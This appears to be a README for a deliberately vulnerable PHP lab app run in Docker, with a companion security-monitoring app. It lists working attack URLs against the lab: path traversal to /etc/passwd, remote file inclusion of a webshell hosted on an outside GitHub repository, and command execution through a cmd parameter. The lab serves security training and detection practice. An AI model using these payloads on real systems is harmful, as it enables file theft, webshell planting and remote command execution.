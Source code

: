 # Alpha and Beta app

Alpha is a strong web app with minimum feature. And Beta is monitoring app for security purposes.

### Install app

* install docker-compose
* my docker-compose version
```
docker-compose version 1.29.2, build unknown
docker-py version: 5.0.3
CPython version: 3.9.2
OpenSSL version: OpenSSL 1.1.1l  24 Aug 2021
```
* build instance docker ```sudo docker-compose build```
* create instance docker ```sudo docker-compose up -d```
* run script ```sudo bash start.sh```

### Alpha app

* **Alpha web page** - adjust IP address with your own Docker IP address
```
http://172.17.0.1/index.php
```
* **Directory Listing**
```
http://172.17.0.1/verysupersecret/
```
* **Local File Inclution**
```
http://172.17.0.1/index.php?file=../../../../../../../etc/passwd
```
* **Remote File Inclution**
```
http://172.17.0.1/index.php?file=https://raw.githubusercontent.com/dxnboy/redteam/master/webshell/phpinfo.php
```
* **Remote Code Execution** - need to trigger RFI first then add ```&cmd=id``` ```&cmd=whoami ```
```
http://172.17.0.1/index.php?file=https://raw.githubusercontent.com/dxnboy/redteam/master/webshell/simple.php&cmd=id
```

### Beta app

* **Beta web app**
```
http://172.17.0.1:8888/index.php
```
